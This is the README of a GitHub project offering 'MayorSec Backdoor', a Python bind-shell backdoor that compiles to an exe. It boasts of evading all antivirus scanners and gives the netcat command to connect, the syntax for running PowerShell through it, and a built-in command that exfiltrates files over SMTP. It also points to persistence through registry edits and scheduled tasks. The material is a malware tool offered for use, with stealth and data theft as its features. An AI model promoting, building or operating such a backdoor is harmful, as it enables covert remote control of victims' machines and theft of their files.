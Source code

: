 # MayorSec Backdoor
[![ko-fi](https://ko-fi.com/img/githubbutton_sm.svg)](https://ko-fi.com/M4M03Q2JN)
### Fully functioning bind-type backdoor
![MayorSecBackdoorLite](/images/backdoorlite.png)

This backdoor is a fully functioning bind shell and lite version of my full functioning Gatekeeper tool. It can be ran with Python or compiled to an exe and has full functioning command line access with Windows and Linux.  When compiled it bypasses all Antivirus solutions on Antiscan.me.

## Usage
Connect using Netcat after changing the port value to whatever you wish (default is 8180)

```nc ipaddr port```

Once connected you can utilize commands as normal.  If you wish to use Powershell commands, make sure to lead with 

```powershell <command here>```

This will execute the command.  Note that some Powershell functionality may crash the Netcat session requiring a reconnect.  

## SMTP Exfiltration
![SMTPExfil](/images/smtpexfil.png)

MayorSec Backdoor has built in exfiltration functionality via SMTP.  Use the below format from the command line.

```exfiltrate filename <sender_email> <sender_email_password> <receiver_email>```

## Compilation
This tool can be ran on systems that have Python3 installed, or can be compiled to exe using Pyinstaller.  I recommend using the GUI version of Pyinstaller called "Auto Py to EXE" which allows for the easy addition of an exe icon for the application.  The included .exe is set to utilize port 8180.

## Notes
Windows will likely require a firewall rule in order to utilize this tool on machines with firewall enabled.  You can achieve persistence through typical manual Registry edits, scheduled tasks, etc. 
